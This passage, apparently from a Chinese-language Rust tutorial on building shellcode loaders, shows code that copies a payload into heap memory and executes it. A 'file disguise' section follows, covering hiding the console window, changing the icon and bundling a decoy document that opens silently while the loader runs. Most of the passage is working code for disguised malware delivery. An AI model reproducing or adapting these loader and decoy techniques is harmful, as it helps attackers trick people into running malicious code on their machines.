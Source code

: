 ```rust
    let heap_alloc: Symbol<unsafe extern "system" fn(HeapHandle, HEAP_FLAGS, usize) ->  *mut std::ffi::c_void> = lib.get(b"HeapAlloc").unwrap();
    let ptr = heap_alloc(heap, 8, code.len());
    if GetLastError() == 0 {
        ptr::copy(
            code.as_ptr() as *const u8,
            ptr as *mut u8,
            code.len(),
        );
        let exec_function = transmute::<*mut std::os::raw::c_void, fn()>(ptr);
        exec_function();
    }
}
```
# 0x06 文件伪装
### WIN文件名特性
### 取消黑框
在 main方法所在 .rs 文件中添加
#![windows_subsystem = "windows"]
### 程序图标
https://rustcc.cn/article?id=54fa5566-2cca-4835-97c4-a241d4d693b7
### 捆绑文件
需要更改第6行 和 第 11行
```rust
use std::io::Write;
use std::os::windows::process::CommandExt;
use tempfile::NamedTempFile;
use winapi::um::winbase::CREATE_NO_WINDOW;

pub fn memory2temp_file_start() {
    // 由于， include_bytes 函数不支持写变量，所以需要自助修改，
    const MEMORY_FILE:&[u8] = include_bytes!("../../static/111.txt");
    // 创建一个临时文件，将内存文件写到临时文件里
    let mut temp_file = NamedTempFile::new().unwrap();
    temp_file.write_all(MEMORY_FILE).unwrap();
    // 还要改后缀名
    let file_path = temp_file.path().with_extension("txt");

    // 获取临时文件的路径
    std::fs::rename(&temp_file.path(), &file_path).expect("TODO: panic message");


    use std::process::Command;
    // 利用cmd 打开文件
    Command::new("cmd")
        .args(&["/c", "start", "/B", file_path.to_str().unwrap()])
        .creation_flags(CREATE_NO_WINDOW)
        .spawn()
        .expect("Failed to open PDF file");
}
```
# 0X07 示例
